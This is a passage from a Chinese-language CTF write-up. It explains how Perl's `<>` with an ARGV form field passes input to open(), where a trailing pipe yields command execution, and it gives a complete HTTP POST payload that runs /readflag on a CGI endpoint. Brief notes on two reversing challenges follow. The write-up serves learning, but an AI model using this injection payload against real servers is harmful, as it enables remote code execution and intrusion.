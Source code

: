 `<>`在strings的狀況下不會work

但如果這個string是`ARGV`就另當別論惹

在這個狀況下，`<>`會迴圈跑過`ARG values`，並且把每一個都塞進`open()`中!

`open()`一般會依據給的file path開啟一個file descriptor

但有個狀況例外，就是`|`被加到string的尾巴

在這個狀況下，open就會跟`exec()`一樣執行

e.g.  `/test.cgi?ls|`

(ruby也有類似的command injection概念)

所以我們這樣做，就能RCE惹

payload:

```
POST /cgi-bin/index.cgi?/readflag| HTTP/1.1
Host: xxx.yy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: multipart/form-data; Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBmriDnOpKyHMfymW
Content-Length: 271

------WebKitFormBoundaryBmriDnOpKyHMfymW
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundaryBmriDnOpKyHMfymW
Content-Disposition: form-data; name="file"; filename="we"
Content-Type: text/aaaa

123
------WebKitFormBoundaryBmriDnOpKyHMfymW--
```

## Reverse

### find

藏了一堆假flag

用正規表達式去找就行惹

水題

### secret

這題可以直接patch

他會對flag做一些運算
